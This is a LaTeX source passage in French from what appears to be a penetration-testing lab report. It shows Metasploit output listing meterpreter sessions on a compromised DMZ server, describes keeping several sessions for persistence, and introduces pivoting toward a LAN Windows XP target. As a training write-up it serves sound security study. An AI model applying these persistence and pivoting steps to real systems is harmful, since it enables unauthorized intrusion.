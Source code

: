 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
	\textbf{Observations Importantes :}
	\begin{itemize}
		\item L'hôte dispose d'une interface Docker (172.17.0.1) suggérant des conteneurs actifs.
		\item L'interface ens33 (192.168.10.100) confirme la position dans la DMZ.
		\item Plusieurs interfaces veth* indiquent des conteneurs réseau.
	\end{itemize}
	
	\section{Gestion de Sessions Multiples}
	
	Pour assurer la persistence et éviter la perte d'accès, nous établissons plusieurs sessions :
	
	\begin{lstlisting}[caption=Sessions Multiples Actives]
		[msf](Jobs:0 Agents:1) exploit(multi/handler) >> sessions -l
		
		Active sessions
		===============
		
		Id  Name  Type                   Information                  Connection
		--  ----  ----                   -----------                  ----------
		2         meterpreter x64/linux  telnetuser @ 192.168.10.100  192.168.100.150:4445 -> 192.168.100.6:13089
		3         meterpreter x64/linux  telnetuser @ 192.168.10.100  192.168.100.150:4445 -> 192.168.100.6:39722
	\end{lstlisting}
	
	\textbf{Avantage :} Si une session est interrompue (redémarrage réseau, timeout), les autres restent actives.
	
	\chapter{Phase 3 : Configuration du Pivot Réseau}
	
	\section{Contexte et Objectif}
	
	À ce stade, nous contrôlons le serveur Ubuntu DMZ (192.168.10.100). Cependant, notre objectif final est d'atteindre le réseau LAN (192.168.20.0/24) où se trouve une machine Windows XP potentiellement vulnérable.
	
\end{document}
